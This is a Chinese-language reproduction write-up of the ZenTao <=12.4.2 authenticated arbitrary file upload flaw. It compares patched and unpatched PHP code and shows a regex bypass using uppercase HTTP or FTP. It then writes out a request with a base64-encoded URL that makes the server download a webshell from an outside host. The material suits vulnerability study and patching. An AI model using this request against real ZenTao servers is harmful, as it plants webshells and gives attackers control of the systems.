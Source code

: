 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 影响版本

<a-checkbox checked>禅道 <= 12.4.2版本</a-checkbox></br>

## 环境搭建

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-1-20220313232509623.png)



调用接口查询版本信息



```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-14.png)



## 漏洞复现

- ✅漏洞触发需要后台权限



根据漏洞描述查看修改后的代码片段



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-2.png)



`修改前`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



`修改后`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



这里传入的参数为版本和link地址，然后base64解码，正则判断是否为`http`或`https`协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-4.png)



可以大写`http`或请求`FTP`来绕过正则



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-6.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-5.png)



跟进一下`parent::downloadZipPackage`这个方法，跟着来到`zentao\module\client\model.php`文件中



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



可以简单看到这里获取link传入的文件名，通过`fopen`打开该文件，写入禅道目录`www/data/client/version`中



查看一下有没有调用这个方法的地方



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-7.png)



找到了`download`方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法



```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



首先先上传一个恶意文件，可以是FTP也可以是HTTP



例如我上传的文件URL为[`http://peiqi.tech/SHELL.php`](http://peiqi.tech/SHELL.php)



```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



请求地址则为



```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-8.png)



下载的目录地址为`zentaopms\www\data\client\1`


 

目录为version名称



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-9.png)



成功上传webshell



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-10.png)



## 